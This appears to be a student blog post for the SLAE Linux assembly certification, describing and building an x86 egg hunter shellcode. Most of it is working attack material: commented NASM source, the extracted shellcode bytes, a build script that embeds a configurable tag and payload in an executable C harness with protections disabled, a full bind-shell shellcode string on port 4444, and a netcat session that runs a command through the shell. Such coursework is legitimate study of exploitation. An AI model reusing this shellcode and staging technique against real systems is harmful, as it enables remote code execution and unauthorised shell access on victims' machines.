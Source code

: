 # SLAE Assignment #3

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online‐courses/securitytube-linux-assembly-expert/

Student ID: SLAE-935

## Assignment

* Study about the Egg Hunter shellcode
* Create a working demo of the Egghunter
* Should be configurable for different payloads

## Resources

* http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf

## Egg Hunters theory

For this assignment it's required to study the egg hunting tecniques, and come up with a fully working implementation.

Usually when a BOF happens, there isn't a lot of space available for the payload, what happens in most of cases is that a small portion of shellcode is put on the stack and directly accessible and 
another part instead is put somewhere else, and have much more space available. The egg hunting tecnique consists in a two staged payload, the first, smaller, searches for a particular pattern in memory, with which the second larger part is identified and executed. As from the paper mentioned earlier the pattern is usually 4 bytes long, and repeated twice, so that the egg-hunter won't transfer execution to its own code.

## Implementation

The shellcode used is the one for shell bind, the only change is that it will be prefixed with a short premises of 8 bytes that will be the pattern searched by the egg hunter.
Here follows the egg-hunter code:

```
; Filename: EggHunter.nasm
; Author:  SLAE-935
;
; Purpose: execute through egg-hunter routine the shellcode of ShellBindTcp

global _start			

section .text

_start:
    ; EDX = ptr address to be validated against access call and later egg
    xor edx, edx

next_page:
    ; Page alignment branch, if a EFAULT is returned from system call all the addresses
    ; in the current page are to be considered invalid, so the page is incremented,
    ; This operation is equivalent to adding 0x1000 to the value in edx
    or dx, 0xfff

next_address:

    ; access(const char *pathname, int mode)
    ; EAX = 33 = system call nbr
    ; EBX = ptr to address to be validated (egg being searched)
    ; ECX = 0 (not used in call)
    ; EDX = current ptr to in page address to be validated (not used in call)

    inc edx ; increments of 1 byte

    ; EBX = ptr to next 8 bytes (this way it allows to examine 8 bytes in a row)
    lea ebx, [edx+0x4]

    xor eax, eax ; initialize eax
    mov al, 33 ; to system call value
    int 0x80
    ; EAX = access return value (0 success, -1 error -> EFAULT)
 
    cmp al, 0xf2 ; check for EFAULT
    je next_page ; if yes, keep searching in next page
                 ; if not search egg in current memory space
    
    ; scasd
    ; EAX = DWORD first comparison operand = ABCD
    ; EDI = DWORD second operand
    mov eax, 0x41424344 ; egg tag ABCD
    mov edi, edx ; ptr to first 4 bytes
    scasd
    ; ret = set status flag, moves edi + 4 bytes

    jne next_address ; if not equal check current address + 1
                     ; if equal we check for second part of the tag

    ; scasd
    ; EAX = DWORD first comparison operand = ABCD
    ; EDI = DWORD second operand
    scasd
    ; ret = set status flag, moves edi + 4 bytes

    jne next_address ; if not equal check current address + 1
                     ; if equal we have found the egg, and jump to edi which now points
                     ; at the beginning of 2nd stage shellcode

    jmp edi ; actually edi points to the beginning of shellcode
```

Compiling the assembler code to shellcode with the following script:

```
echo '[+] Assembling with Nasm ... ' # Nasm shell source: file.nasm
nasm -f elf32 -o $1.o $1.nasm
echo '[+] Done!'

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o
echo '[+] Done!'

# Remove object file
rm -rf $1.o

echo '[+] Dumping Shellcode ...'
objdump -d ./$1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\\x/g'|paste -d '' -s |sed 's/^/"/' | sed 's/$/"/g'
echo '[+] Done!'

# Remove executable
rm -rf $1
```

which generates the following output (shellcode asm):

```
$ ./compile-nasm.sh egg-hunter      
[+] Assembling with Nasm ... 
[+] Done!
[+] Linking ...
[+] Done!
[+] Dumping Shellcode ...
"\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x31\xc0\xb0\x21\xcd\x80\x3c\xf2\x74\xed\xb8\x44\x43\x42\x41\x89\xd7\xaf\x75\xe8\xaf\x75\xe5\xff\xe7"
[+] Done!
```

We are using the same shellcode of the previous assignment (shell bind). The following script allows easily customization of the egg payload and of the shellcode itself:

```
# Ex: ./compile.sh ABCD "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

echo '######### NASM #########'
echo '[+] Customizing Tag: '$1 # $1 Tag like: ABCD
tag=`echo -n $1 | xxd -ps | sed 's/[[:xdigit:]]\{2\}/\\\x&/g'`
echo '[+] Done!'

echo '[+] Customizing Shellcode: '$2 # $2 Shellcode: \x00\x01..
shellcode=$2
echo '[+] Done!'

echo '[+] Assemble shellcode C ...'

echo "#include<stdio.h>" >shellcode.c
echo "#include<string.h>" >>shellcode.c
echo "#define EGG \"$tag\"" >>shellcode.c
echo "unsigned char shellcode[] = EGG" >>shellcode.c
echo "                            EGG" >>shellcode.c
echo "                            \"$shellcode\";" >>shellcode.c
echo "unsigned char egghunter[] = \"\x31\xd2\x66\x81\xca\xff\x0f\x42\"" >>shellcode.c
echo "                            \"\x8d\x5a\x04\x31\xc0\xb0\x21\xcd\x80\"" >>shellcode.c
echo "                            \"\x3c\xf2\x74\xed\xb8\"" >>shellcode.c
echo "                            EGG" >>shellcode.c
echo "                            \"\x89\xd7\xaf\x75\xe8\xaf\x75\xe5\"" >>shellcode.c
echo "                            \"\xff\xe7\";" >>shellcode.c
echo "void" >>shellcode.c
echo "main() {" >>shellcode.c
echo "    printf(\"Shellcode Length: %d\\n\", strlen(egghunter));" >>shellcode.c
echo "    int (*ret)() = (int(*)())egghunter;" >>shellcode.c
echo "    ret();" >>shellcode.c
echo "}" >>shellcode.c

echo '[+] Done!'

echo '[+] Assemble shellcode.c ...'
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

The script is executed as follows:

```
$ ./compile.sh ABCD "\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x6a\x05\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51\x51\x57\x89\xe1\xcd\x80\x89\xc6\x31\xc0\xb0\x02\xcd\x80\x09\xc0\x75\x49\x31\xc0\xb0\x06\x89\xfb\xcd\x80\x31\xc0\xb0\x3f\x89\xf3\x31\xc9\xb1\x01\xfe\xc9\xcd\x80\x31\xc0\xb0\x3f\x31\xc9\xb1\x01\xcd\x80\x31\xc0\xb0\x3f\x31\xc9\xb1\x02\xcd\x80\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb1\x01\xfe\xc9\x31\xc9\x88\xca\xcd\x80\x31\xc0\xb0\x06\x89\xf3\xcd\x80\xeb\x90"
######### NASM #########
[+] Customizing Tag: ABCD
[+] Done!
[+] Customizing Shellcode: \x31\xc0\xb0\x66\x31\xdb\xb3\x01\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x6a\x05\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51\x51\x57\x89\xe1\xcd\x80\x89\xc6\x31\xc0\xb0\x02\xcd\x80\x09\xc0\x75\x49\x31\xc0\xb0\x06\x89\xfb\xcd\x80\x31\xc0\xb0\x3f\x89\xf3\x31\xc9\xb1\x01\xfe\xc9\xcd\x80\x31\xc0\xb0\x3f\x31\xc9\xb1\x01\xcd\x80\x31\xc0\xb0\x3f\x31\xc9\xb1\x02\xcd\x80\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb1\x01\xfe\xc9\x31\xc9\x88\xca\xcd\x80\x31\xc0\xb0\x06\x89\xf3\xcd\x80\xeb\x90
[+] Done!
[+] Assemble shellcode C ...
[+] Done!
[+] Assemble shellcode.c ...
```

## Proof of execution

The executed shellcode leads to the following output that confirms it's correctness:
```
$ ./shellcode 
Shellcode Length: 36

```

and successful connection with execution of a system command into the bind shell:

```
$ nc -vv localhost 4444
Connection to localhost 4444 port [tcp/*] succeeded!
id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),110(sambashare),999(admin)
```